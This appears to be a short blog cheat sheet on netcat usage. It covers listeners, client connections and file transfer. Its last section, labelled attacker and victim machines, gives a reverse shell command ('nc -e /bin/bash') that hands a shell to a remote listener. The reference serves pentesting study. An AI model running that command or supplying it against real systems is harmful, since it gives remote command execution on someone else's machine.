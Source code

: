 ```yaml
---
layout: post
title: netcat
date: 2022-08-20
categories: [Cheatsheet,Common]
tags: [netcat]
---
```


# netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.

> Listener
```bash
nc -lp PORT > /path/to/outfile 
```

> Client
```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```
[-w]: Define the timeout in seconds.


## Reverse Shell
Use netcat in server mode to listen for connections then supply the shell from the client. This will allow the session on the server to run commands on the client once the shell is received.

> Server (Attacker Machine)
```bash
$ nc -lvnp 8080
```

> Client (Victim Machine)
```bash
$ nc -e /bin/bash @Server_IP PORT
```
[-e]: Execute external program after accepting a connection or making connection.
